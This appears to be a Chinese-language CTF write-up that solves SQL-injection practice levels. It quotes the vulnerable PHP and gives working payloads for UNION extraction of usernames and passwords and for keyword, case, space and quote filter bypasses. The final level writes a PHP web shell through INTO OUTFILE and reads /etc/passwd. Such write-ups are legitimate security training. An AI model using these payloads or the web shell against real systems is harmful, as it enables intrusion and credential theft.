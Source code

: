 ```yaml
---
layout: post
author: "kele"
date: "2018-02-15 22:53:26"
title: "sql 注入练习题"
tags: 
  - ctf
  - sqli
---
```

# sql注入习题

来源于ctfs.me的一道习题，实在做不出来，google了wp,发现这道题目是引自于其他习题集了，而且原题目是有源码的。。。于是趁机把他的题目做了一遍   
## level1
这道题目其实没有源码也是可以做的，不过需要简单思考一下    
`$query = "SELECT * FROM secrets WHERE session_id = '" . $_POST['session_id'] . "'";`
这个语句，我们需要让where 后面的为true，所以我们需要用到or，比较简单的题目    
payload:`1' or 1=1 # `   
在get your secrets里面输入,就可以得到所有的secrets，第一个就是flag


## level2
这道题目在ctfs.me上很坑，我不晓得大佬是怎么做的。
假如不给源码，我首先想到的是万能密码登陆，一顿操作之后，发现**注入点在用户名的位置**登陆不了，gg   
换思路，考虑这个登陆的回显   
payload:`username:1'order by 1# &password=dd`   
回显: username/password is invalid    
payload:`username:1'order by 2# &password=dd'
回显: invalid sql query   

可以知道只有一列，所以我们可以看看回显的位置   
payload: `username=1' union select 1 -- -&password=dd`   
回显。。。,回显出flag了，但是页面显示的不是真正的，查看源码发现另一个flag，get! 

---

假如给了源码，那就稍微简单一点了   
```
if (isset($_POST['username']) && isset($_POST['password'])) {

    // $query = "SELECT flag FROM my_secret_table"; We leave commented code in production because we're cool.
 
    $query = "SELECT username FROM users where username = '" . $_POST['username'] . "' and password = ?";

    // We use prepared statements, it must be secure.
```
直接构造payload:`username=1'union select flag from my_secret_table`

## level3 - The Blacklist Saga (Part 1)
```
$filter = array('union', 'select');

    // Remove all banned characters
    foreach ($filter as $banned) {
        $_GET['q'] = preg_replace('/' . $banned . '/i', '', $_GET['q']);
    } 
```
过滤union 和select 关键字,使用preg_replace替换掉union和select关键字，而且不区分大小写("/i")   
以前经常看到这种绕过方式uni/**/on,这次尝试无效。。。    
但是因为替换关键词为空字符，所以可以构造这种`uniunionon`，preg_replace把字符串中间的union替换为空白，其余字符再次组合成为union   
payload:`1'uniunionon seleselectct 1,username,password from users #`
简单过程:
1. 使用order by 测列数 `1'order by 3#`
2. 然后利用information_schema库查表名，列名，就可以了   

得到flag

## Level 4 - The Blacklist Saga (Part 2)
```
 $filter = array('UNION', 'SELECT');

    // Remove all banned characters
    foreach ($filter as $banned) {
        if (strpos($_GET['q'], $banned) !== false) die("Hacker detected"); 
        if (strpos($_GET['q'], strtolower($banned)) !== false) die("Hacker detected"); 
    } 
```
比较黑名单的大写形式，小写形式，但是漏了大小写混合，所以可以使用大小混合绕过   
payload:`1'uNion Select 1,username,password from users #`  


## Level 5 - The Blacklist Saga (Part 3)
```
// Ban space character
    if (strpos($_GET['q'], " ") !== false) die("Hacker detected"); 
```
过滤了空格，空格绕过，使用mysql的注释/**/
payload:`1'union/**/select/**/1,username,password/**/from/**/users/**/#`

## Level 6 - The Blacklist Saga (Part 4)
```
// Ban space character
    if (strpos($_GET['q'], "'") !== false) die("Hacker detected"); 
    if (strpos($_GET['q'], '"') !== false) die("Hacker detected");
```
过滤单引号和双引号，绕不过，但是可以通过原来的sql语句构造   
`$query = "SELECT * FROM search_engine WHERE title LIKE '" . $_GET['q'].  "' OR description LIKE '" . $_GET['q'] .  "' OR link LIKE '" . $_GET['q'] . "';";`   
payload: `and 0 union select 1,username,password from users #\`    
具体:   
select * from search_engine where title like '**and 0 union select 1,username,password from users #\\**' or description like '**and 0 union select 1,username,password from users #\\**' or link like '**and 0 union select 1,username,password from users #\\**';   
可以看到一共有6个单引号，但是由于'\\'的作用，所以第二个，第四个，第六个单引号被转义了,用**SQL**代理**and 0 union select 1,username,password from users #\\**，结果如下：
`select * from search_engine where title like 'SQL \' or description like 'SQL \' or link like 'SQL\'  `
去掉转义的单引号   
`select * from search_engine where title like 'SQL  or description like 'SQL  or link like 'SQL  ` 
还原**SQL**,因为title like 后面的参数`SQL or description like'是一个字符串，所以SQL不用还原，而且SQL最后面是一个注释符号，所以上面语句中第二个SQL后面被注释，可以省略     
`select * from search_engine where title like 'SQL or description like` and 0 union select 1,username,password from users #`   
再简化一下:
`select * from search_engine where title like 'xxxx' and 0 union select 1,username,password from users # `
ok  

## Level 7
先做level 8 

## Level 8 - The Final Challenge
查看源码，发现有两个隐藏表单 
```
<!--<li><a href="/uploads/">Our files</a></li>-->
<!--<li><a href="/phpinfo.php">Debug</a></li>-->
```
可以知道允许上传的文件在uploads里面，
查看phpinfo`DOCUMENT_ROOT	/var/www/html`，知道网站地址是这个，所以我们可以是用sql的into outifle 把php一句话，输出到php文件中 
payload:`1 union select  "<?php system($_GET[\"cmd\"]);?> ", "" into outfile  "/var/www/html/uploads/temp2.php"# `    

`35.184.20.243:8003/uploads/temp2.php?cmd=ls`   
查看系统文件，flag在上一级目录里面，使用cat读取就可以了    


## leve7  
使用level8的shell `cat /etc/passwd`得到flag,或者查看level7的flag.php源文件就可以得到flag   
但是我觉得这可能有点问题，可能有其他的做法，还没有想到     



